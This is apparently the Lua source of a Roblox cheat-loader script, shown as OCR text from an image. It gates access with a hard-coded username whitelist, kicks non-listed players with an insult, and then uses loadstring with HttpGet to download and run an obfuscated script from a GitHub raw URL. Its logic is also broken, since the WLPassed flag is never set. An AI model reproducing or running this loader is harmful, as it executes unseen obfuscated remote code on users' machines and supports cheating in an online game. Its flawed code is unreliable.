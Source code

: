 -- // Logins: // --

local Usernames = {
["yamete-uwu"] = true;
}



-- // Variables: // --

local Login = game.CoreGui.Login


local Username = Login.Main.UserFrame.UserBox

local Userpassed = false

local WLPassed = false



-- // Login Function: // --

if Usernames[Username.Text] then
Userpassed = true
else
game.Players.LocalPlayer:Kick("dumbass! Wrong key")
end




if Userpassed == true then
if WLPassed == true then
for i,v in pairs(game.CoreGui:GetDescendants()) do
 if v.Name == "Main" then
  v:Destroy()
 end
end
loadstring(game:HttpGet('https://raw.githubusercontent.com/Balligusapos/Balligusapos/main/robloxs-obfuscated'))()
end
end
